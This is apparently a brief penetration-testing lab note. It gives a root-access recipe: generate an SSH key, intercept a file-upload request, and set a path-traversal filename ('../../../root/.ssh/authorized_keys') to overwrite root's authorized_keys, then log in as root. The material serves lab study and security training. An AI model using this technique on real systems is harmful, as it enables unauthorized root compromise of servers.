 ```yaml
---
IP_KALI: 192.168.45.155
---
```

Generate key "fileup:
```
ssh-keygen
```
```
cat fileup.pub > authorized_keys
```
- Intercept the upload POST request ~={yellow}BEFORE=~ sending it and modify the relative path (e.g. ../../../../../../../root/.ssh/authorized_keys) to overwrite the authorized keys file

Remove known hosts to avoid errors:
```
rm ~/.ssh/known_hosts
```

ssh into machine:
```
ssh -p 2222 -i fileup root@mountaindesserts.com
```